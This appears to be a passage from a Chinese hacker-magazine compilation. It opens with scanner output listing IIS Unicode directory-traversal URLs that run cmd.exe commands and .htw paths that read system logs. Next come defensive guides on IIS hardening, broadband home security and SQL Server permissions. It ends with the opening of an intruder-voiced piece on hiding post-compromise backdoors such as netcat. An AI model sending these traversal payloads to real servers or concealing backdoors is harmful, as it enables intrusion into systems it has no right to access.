发现CGI漏洞=> 127.0.0.1/scripts/samples/search/cifullhit.htw (200) OK

发现CGI漏洞=> 127.0.0.1/scripts/..%255c../winnt/system32/cmd.exe?/c+dir+c:\ (200) OK

发现CGI漏洞=> 127.0.0.1/scripts/..%c0%af..%c0%af../winnt/system32/cmd.exe?/c+dir (200) OK

发现CGI漏洞=> 127.0.0.1/scripts/..%252f..%252f..%252fwinnt/system32/cmd.exe?/c+dir (200) OK

发现CGI漏洞=> 127.0.0.1/scripts/..%255c..%255cwinnt/system32/cmd.exe?/c+dir (200) OK

发现CGI漏洞=> 127.0.0.1/null.htw (200) OK
```

从上面的扫描中，我们可以看到系统存在的三个最严重的安全问题：Unicode 漏洞、.ida&.idq 漏洞、.printer 漏洞。目前在 Internet 上攻击 IIS 服务器大多是利用的这三个漏洞。

点击“控制面板”中的“管理工具”，打开“Internet 服务管理器”，展开“默认 Web 站点”，如图 1 所示。

图 1

右击“Scripts”目录，在菜单中选择“属性”，问题就出在“执行许可(P)”上，将默认的“脚本和可执行程序”改为“纯脚本”或“无”就可以了，如图 2 所示。

图 2

将所有虚拟目录的“脚本和可执行程序”均改为“纯脚本”或“无”，这样 Unicode 漏洞就不会出现问题了。

右击“默认 Web 站点”，选择“属性”，选择“主目录”中的“配置”，如图 3 所示。

图 3

这儿是关键了，大多数问题都是存在应用程序映射上的，选择扩展名为 .ida 及 .idq 的删除掉，就不会存在 .ida&.idq 漏洞了。选择扩展名为 .printer 的删除，就不会存在 .printer 溢出了。

现在最严重的三个漏洞已经修补好了，至于其它的一些泄露文件内容、泄露文件源代码的漏洞，对于个人用户来说倒不是太重要，但是对于一些网站是很危险的。

将图 3 中扩展名为 .htr 的删除，就可以防护 +.htr 及 %3F+.htr 漏洞。

> 将扩展名为 .htw 的删除，就可以防护 127.0.0.1/iissamples/exair/search/cifullhit.htw?CiWebHitsFile=/../winnt/system32/config/system.log&CiRestriction=none&CiHiliteType=Full (200) OK、127.0.0.1/iishelp/iis/misc/iitrunh.htw (200) OK 等基于 .htw 的漏洞。

将 %system%\Program Files\Common Files\Microsoft Shared\web server extensions\40\_vti_bin\shtml.dll 及 shtml.exe 删除，就可以防护 127.0.0.1/_vti_bin/shtml.dll 及 127.0.0.1/_vti_bin/shtml.exe 漏洞。

## 宽带用户网络安全隐患建议

随着宽带 Internet 的蓬勃发展，实现永久连接、随时在线已不再是遥远的梦。但是，我们必须明白，永久连入 Internet 的同时也就意味着永远连接上了入侵的威胁。

### 总体上来说，宽带导致了以下几个方面的安全挑战：

1. **黑客攻击的程度大大增加**  
   永久连接就意味着黑客在没人注意或意想不到的时间段尝试冲破安全保卫。另外，永久连接经常使用固定 IP 地址，一旦黑客获取你的 IP 地址，即便不能侵入你的机器，扰你几颗炸弹也不成问题。

2. **通过公网连接其它网络要求更高安全性**  
   黑客有很好用的工具可对 Internet 进行扫描，以寻找存在漏洞的计算机。事实上，永久连接的宽带用户的计算机每天被黑客扫描 2 至 3 次根本不足为奇。宽带用户最常见的错误是打开了“Windows 文件和打印共享”，一旦黑客控制了系统，他们就可以盗走敏感信息、蓄意破坏文件，甚至使用你的计算机对其它站点发动攻击。

### 如果你个人已经用上了宽带 Internet，应采用以下安全方案来降低风险：

1. **防火墙**  
   防火墙在两个网络之间执行一个访问控制策略。防火墙可以是软件，如 Checkpoint、Symantec 等；也可以是硬件设备，如 NETScreen、Sonicwall、Nokia 等。家庭用户可以使用个人防火墙，如 Symantec、天网等。

2. **杀毒软件技术**  
   杀毒软件是我们应用最为普遍的安全技术方案，因为这种技术实现起来最为简单，但我们知道杀毒软件事实上要防的也就是病毒，功能十分有限，不能完全满足宽带网络安全技术的需要。可喜的是随着杀毒软件技术的不断发展，现在的主流杀毒软件同时对预防木马及其它一些黑客程序的入侵也能起到一定的作用。还有，杀毒软件的开发商同时也提供了软件防火墙，它们具有一定的防火墙功能，如金山、Norton 防火墙等。

3. **加密技术**  
   对于特别敏感的通信，要考虑对 PC 上的通讯进行加密。带有 VPN 保护的防火墙可以保护远程站点的敏感数据，并防止来自这些计算机的拒绝服务攻击。VPN、SSL 提供了电子商务交易的安全方法。根据业务需要，可以采用 PGP、PKI 这样的产品。

4. **调制解调器的安全**  
   有时候，调制解调器的配置和验证信息会存储在它上边，有些会存储在计算机上。因此，最好咨询厂商以确定并保护这些信息。

5. **共享的电缆调制解调器连接**  
   电缆网络经常由多个用户共享使用，这使得黑客可以使用嗅探器对信息传播进行监听。因此，要确定服务供应商是否将网络和设备划分到了 DOCSIS（基于线缆数据传输服务接口标准）。

6. **内容检查**  
   Java、Javascript、ActiveX 等互动技术是宽带内容站点和 Email 的重要组成部分，同时也是黑客攻击的潜在媒体。建议在浏览器中和 Email 客户端中禁止这些功能。

7. **尽量不要启动系统资源共享功能**  
   解决的方法是修改网络属性，即主要针对绑定在 Internet 协议 TCP/IP 上的“Microsoft 网络客户”和“Microsoft 网络上的文件和打印共享”。进入“网上邻居”的“属性”窗口，将“Microsoft 网络用户”或“Windows 登录”下的“文件及打印共享”窗口中的选项全部选掉。如果你同时还连接局域网，那么还要修改此台机器所安装的每个网卡对应的 TCP/IP 属性，单击“TCP/IP→网卡名”，单击“绑定”，确认没有选择“Microsoft 网络客户”和“Microsoft 网络上的文件和打印共享”。

   若你要在局域网中共享文件和打印机，可以使用非 Internet 协议 IPX/SPX 或 NetBEUI 都可以，即在“IPX/SPX 兼容协议→网卡名”和“NetBEUI→网卡名”中绑定“Microsoft 网络客户”和“Microsoft 网络上的文件和打印共享”，就可以实现局域网上的文件共享和远程打印。

   如果你要将硬盘设为共享，最好是采用隐藏共享名的方式，方法是在共享名后面加上“$”。这样设置以后，你在 Internet 上使用“TCP/IP”协议，在局域网上使用 Internet 协议，黑客要访问共享的文件会更加困难。

8. **内部网络系统的密码要定期修改**  
   由于许多黑客用穷举法来破解密码，像 John 这一类的密码破解器可从因特网上免费下载，只要加上一个足够大的字典在足够快的机器上没日没夜地运行，就可以获得需要的帐号的密码。因此，经常修改密码对付这种盗用就显得十分奏效。

9. **防止 IP 地址的泄露**  
   主机连入 Internet 后，被分配一个唯一的 IP 地址（无论是动态的还是静态的）。IP 是许多黑客软件的定位工具，所以在上网时要使用 Proxy Server（代理服务器）。使用代理服务器后，你在 Web 浏览器上所进行的一切操作都先由代理服务器发出，你的电脑并不直接和提供页面的服务器连接，因此 IP 地址就不会被泄露出去了。

10. **禁用或限制 Cookie**  
   Cookie 的好处在于：用户首次浏览 Web 网页时，Cookie 记住有关信息，以后每次连接该站点时，服务器自动搜索有关信息，客户机就把这些浏览信息发送出去，不再需要输入用户标识（user_id），使用户省去了一些步骤。

   Cookie 的缺陷在于：Cookie 包含的信息包括用户的 IP 地址、用户名、密码等重要信息，服务器对其检索不是在服务器上进行，而是在用户硬盘上进行。

   解决 Cookie 的方法是：可以指定当某站点要在你的计算机上创建 Cookie 时是否给出提示，这样就可以选择允许或拒绝创建 Cookie，也可以禁止浏览器接受任何 Cookie。

11. **禁用或限制 Java、Java 小程序脚本、ActiveX 控件和插件**  
   由于网上（如在浏览 Web 网页和在聊天室里）经常有用 Java、Java Applet、ActiveX 编写的脚本，它们可能会获取你的用户标识、IP 地址乃至相关口令，它们甚至会在你的机器上安装某些程序或进行其它操作。因此应对 Java、Java 小程序脚本、ActiveX 控件和插件的使用进行限制。

12. **应用补丁程序**  
   为已经安装的操作系统收集供应商提供的合适的补丁程序。操作系统及其它应用软件发布后，随着时间的推移，“bug”不断被发现，如果不及时安装相关的补丁程序，你的计算机被攻击甚至破坏的可能性就会变大。

## 关于 SQL-SERVER 安全权限设置的问题

聊神

随着科学技术的飞速发展，计算机以及网络的普及，数据库的应用越来越广泛，在银行储蓄、企业资料管理、财会统计、电子商务、网络搜索等许多方面都与数据库有着多多少少的联系。数据库系统也从原来的单用户转变为面向网络的多用户发展，从 DBASE 到现在国内十分流行的 SQL-SERVER 关系数据库等。

SQL-SERVER 2000 的服务器版必须安装在基于 WinNT 结构的 SERVER 版下面，如 Win2000-SERVER 或更高的版本。安装好 SQL-SERVER 后，会有企业管理器、服务管理器等菜单，在这里主要用企业管理器来设置权限，而服务管理器会自动运行，如图 1 所示。

图 1

图 2

首先，打开 SQL-SERVER 企业管理器，如图 2 所示，在 SQL-SERVER 所运行的服务器（这里是 CXY）上选中属性的“安全性”这一项，在这里可以设置 SQL-SERVER 服务器的登录方式。它有两种方式供选择，第一种是仅从 Windows 登录，第二种是 SQL-SERVER 登录和 Windows 登录都可以。

一般来说，这里应该选择后一种，即“SQL-SERVER 提供的登录和 Windows 登录都允许”，因为在后面会介绍怎样禁止 Windows 登录方式，而只提供 SQL-SERVER 登录方式，这样就不会因为系统密码被盗而造成数据的泄密。

如果在这里选择了第一种，就会出现只要能登录上你的操作系统就能登录上你的 SQL-SERVER 服务器。

这样一来，只要被扫描工具（如 X-SCAN、流光等）扫描到弱口令，而不论是系统管理员或随便什么人的 Windows 帐户，都可能进入你的 SQL-SERVER 服务器中，任意更改你的数据资料。当然，你也可以在“启动服务帐户”中设置能够登录 SQL-SERVER 服务器的 Windows 登录帐户，但总是觉得不如使用 SQL-SERVER 登录安全，因为现在破解 Windows 帐户的方法有很多。

当选择了第二种登录方式后，再在所运行的服务器（这里是 CXY）上选中“编辑 SQL-SERVER 注册属性”，如图 3 所示，这里能看到的是使用 SQL-SERVER 登录还是 Windows 用户登录。我们选择 SQL-SERVER 登录，这样就禁止从 Windows 用户登录了。SQL-SERVER 登录的默认用户是 SA 用户（它既不能删除也不能禁用，就如同 Windows 2000 的 Administrator 管理员）。

图 3

> FOR~ 注意  
> 安装时如果允许空密码登录，则在登录时 SA 用户可以不使用密码。为了安全我们一定要对它设置一个十分复杂的密码，许多 SQL-SERVER 入侵都是通过 SA 用户入侵的。

我们选中服务器 CXY“安全性”中的“登录”，如图 4 所示，这时我们能够看到服务器的登录用户中有 Chen、SA、Administrator 三个用户。

图 4

# 黑客研究院

当然也可以新建登录用户，其中 Administrator 用户是 Windows 用户，Chen 和 SA 是 SQL-SERVER 登录用户。我们在这里可以删除 Chen 和 Administrator 用户，如图 5 所示。



图 5

也可以禁止使用 Administrator 用户，如图 6 所示。

在密码栏可以更改 Chen 用户的密码，这样你就可以使用 Chen 用户登录 SQL-SERVER 了。一般 SQL-SERVER 服务器安装设置好后，都不会让用户使用企业管理器，或者直接删除企业管理器，而是使用查询分析器或是其它的工具。因为从刚才到现在我们都是基于企业管理器的介绍，它却没有一次要求我们输入密码什么的。这是针对登录用户的权限设置。



图 6

这样设置用户还是不够好，你还要让每个用户都拥有自己的访问权限。关于用户权限，在 SQL-SERVER 里面有两种：一种是服务器角色权限，一种是数据库管理权限，如图 7 所示。

还得先看一下 SA 用户的权限，服务器角色是 SYSTEM Administrator（对服务器的所有操作都能进行，相当于 Windows 的管理员），数据库管理权限是 DB_OWNER（对数据库的所有操作都能进行，也相当于管理员）。下面主要介绍数据库管理权限。

我们让 Chen 用户能够管理一个指定的数据库，如 ABC。选中数据库 ABC，ABC 数据库的角色允许中会出现许多系统角色，我们选中 DB_OWNER 角色，如图 8 所示，这样 Chen 用户就能够对 ABC 数据库进行任何操作了。

你也可以不选 DB_OWNER 角色，而选择其它数据库角色，让用户只有“只读权限”或者“其它权限”。下面是未选中 ABC 数据库时的情况，如图 9 所示；选中后的情况，如图 10 所示。



图 7



图 8



图 9



图 10

> LOOK
>
> **注意：**
> 数据库的权限设置，前边讲的是针对整个数据库的或多个数据库的权限设置，这里要针对某一个数据库里的许多表。如果你想让用户拥有对数据库中的一部分表，而不是全部表进行管理的权限，这时，你还需要对用户权限进行具体而详细的设置。

如果我们还是针对上面的用户 Chen 和数据库 ABC 来进行，在企业管理器里面打开数据库 ABC，选中用户 Chen（执行了前面的步骤后，用户 Chen 会自动加入到 ABC 的用户里）属性里的权限，这里你能看到打勾和打叉的选项。对于 ORDERS，如图 11 所示，表的 SELECT 查询权限是打勾的，你就可以在查询分析器中使用 SELECT 语句查询表 ORDERS；而对于 ORDERSDETAIL 表的 SELECT 是打叉的，所以就不能查询它里面的数据。



> LOOK
>
> **注意：**
> 后面还有 INSERT 插入数据、UPDATE 更新数据、DELETE 删除数据等选项，都能设置它的权限，这是针对数据库中表的每一个表格的权限设置。

而第一张表中又有多个属性，也叫字段或列，如 ORDERS 表中 CCARTID、CORDERNO 等，如图 12 所示。



在这里你可以像上面设置 SELECT 和 UPDATE 权限一样，对表中的属性进行限制，具体方法和上面差不多，就不多说了。

通过上面的这些设置，你给 SQL-SERVER 用户 Chen 设置了密码和访问权限。当用户 Chen 成功登录后，能对数据库 ABC 中的表 ORDERS 中除 CCARTID、CORDERNO 列以外的所有列进行查询和更新，而不能对其它数据进行查询、更改等其它操作。到这里你已经基本了解了 SQL-SERVER 安全权限设置的问题。


## 一、浅谈信息隐藏技术在 HACK 中的应用

当一个入侵者得到远程主机的控制后，希望保持成果，安装一个安全的后门用以将来与之保持联系。该怎么做呢？直接将 netcat 这类文件放在管理员眼皮底下，或者仅仅简单地将它改个名字？这样就可以了吗？NO！不要以为所有的管理员都是白痴！现在相当多的管理员已经逐渐增强了系统安全意识，虽然他们中的一大部分也许还不是特别了解黑帽子军团的入侵伎俩，但是他们会用基本的网络命令以及借助一些第三方安全工具来诊断当前系统安全现状。当发现一个可疑的进程正在运行在他宝贝服务器的内存空间中时，他非常有可能使用“端口－进程关联查看程序”来查看这个可疑进程正在做着怎么样的勾当！也有不少管理员将求助于一些常有黑客或者安全人士来往的 BBS，比如我负责的一个在国内影响比较大的黑客技术 BBS 上，平均每天都能看见几个担心自己系统被入侵的初级管理员，自然我们会热心地替他指出解决方案。

当你正为使用了端口重定向等技术避开防火墙的检测来做到后门联系而沾沾自喜时，是否想到过一个检测到不明流量和可疑端口开放的管理员，正虎视眈眈地看着你在他机器上玩耍！是的！使用诸如 NETCAT 这类鼎鼎大名的工具完成你的事业的入侵者，正如一个大摇大摆地走进后门的家伙，也许这个后门已经被聪明的管理员设下了陷阱，正等着你的大驾光临，也许你就此踏上不归路。谁知道呢？

